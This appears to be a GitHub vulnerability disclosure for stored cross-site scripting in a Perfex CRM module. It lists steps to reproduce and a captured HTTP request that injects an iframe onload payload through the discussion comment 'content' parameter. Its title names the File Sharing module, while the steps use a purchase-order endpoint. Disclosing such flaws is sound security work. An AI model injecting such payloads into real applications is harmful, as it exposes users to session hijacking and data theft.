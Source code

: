 # File-Sharing-module-for-Perfex-CRM-XSS

A Stored Cross-Site Scripting (XSS) vulnerability was discovered in the File Sharing module of Perfex CRM. The vulnerability exists in the `&content` parameter within the Discussion section. By injecting malicious scripts into this parameter, an attacker can store the script within the application. When the content is viewed by other users, the malicious script is executed in their browsers, potentially leading to the compromise of user data, session hijacking, or other malicious actions.

# Steps to Reproduce:
* Login to the Perfex CRM system with valid credentials.
* Navigate to the following endpoint: `/admin/purchase/purchase_order/`.
* Select any Purchase Order and click on the `Discussion` tab.
* Write any comment and click on `Add Comment`.
* Capture the request using a tool like Burp Suite.
* In the captured request, locate the `content` parameter, replace its value with a malicious payload, and forward the request.

```
POST /admin/purchase/add_comment HTTP/2
Host: localhost
Cookie: _ga=GA1.1.723218010.1723958795; csrf_cookie_name=54dd532b592d3e37eb00c83fea787332; sp_session=48fef5to7od8tvb21ak5q2i34dp9vq59; _ga_2TQZW5L3GV=GS1.1.1723972977.4.1.1723972986.0.0.0
Content-Length: 89
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://perfexmodules.gtssolution.site
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://perfexmodules.gtssolution.site/admin/purchase/purchase_order/4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

csrf_token_name=54dd532b592d3e37eb00c83fea787332&content=<iframe/onload=confirm("XSS")>&rel_id=4&rel_type=pur_order
```
